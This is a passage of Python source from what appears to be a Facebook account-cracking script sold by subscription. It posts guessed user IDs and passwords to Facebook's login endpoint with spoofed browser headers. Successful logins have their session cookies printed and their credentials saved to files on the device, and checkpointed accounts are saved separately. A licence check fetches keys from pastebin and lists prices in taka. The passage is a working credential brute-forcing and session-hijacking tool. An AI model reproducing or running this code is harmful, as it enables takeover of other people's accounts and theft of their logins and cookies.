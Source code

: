             "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'mbasic.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=1',
            'cache-control': 'no-cache, no-store, must-revalidate',
            "referer": 'https://mbasic.facebook.com/',
            "sec-ch-ua": '"Google Chrome";v="106", "Not)A;Brand";v="24", "Chromium";v="106"',
            "sec-ch-ua-mobile": '?0',
            "sec-ch-ua-platform": "Android",
            "sec-fetch-dest": 'document',
            "sec-fetch-mode": 'navigate',
            "sec-fetch-site": 'none',
            "sec-fetch-user": '?1',
            "upgrade-insecure-requests": '1',
            "user-agent": pro}
            lo = session.post('https://www.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[65:80]
                print('\033[38;5;46m[Dragon_X-Boy-OK] ' +uid+ '|' +ps+    '  \n   \033[1;33mCOOKIES : \033[38;5;46m'+coki+ ' ')                
                open('/sdcard/X-Boy-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[65:80]
                print('\033[38;5;46m[Dragon_X-Boy-CP] ' +uid+ '|' +ps+ '  \33[0;97m')
                open('/sdcard/X-Boy-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write('\r    \33[1;93m[\033[1;95mDragon\033[0m/%s\33[1;93m]\033[1;97mOK-\033[38;5;46m%s'%(loop,len(oks))),
        sys.stdout.flush()
    except:
        pass


def Subscraption():
	key1=open('/storage/emulated/0/android8.txt', 'r').read()
	r1=requests.get("https://pastebin.com/M6MTdv2n").text
	if key1 in r1:
		os.system('clear')
		o()
	else:
		os.system("clear")
		print(logo)
		print("    \033[97;1m[\033[92;1m•\033[97;1m]\33[0;92mYOUR ARE NOT A PREMIUM USER")
		time.sleep(0.0009)
		print("    \033[97;1m[\033[92;1m•\033[97;1m]\33[0;92mPREMIUM TOPUP LIST")
		print("    \033[97;1m[\033[92;1m•\033[97;1m]\33[0;92m7 DAYS 200 TAKA")
		print("    \033[97;1m[\033[92;1m•\033[97;1m]\33[0;92m15 DAYS 400 TAKA")
		print("    \033[97;1m[\033[92;1m•\033[97;1m]\33[0;92mYour Key  :\033[1;94m "+ak+Mahin+key1)
		name = input("    \033[97;1m[\033[92;1m•\033[97;1m]\33[0;92mYour Name : ")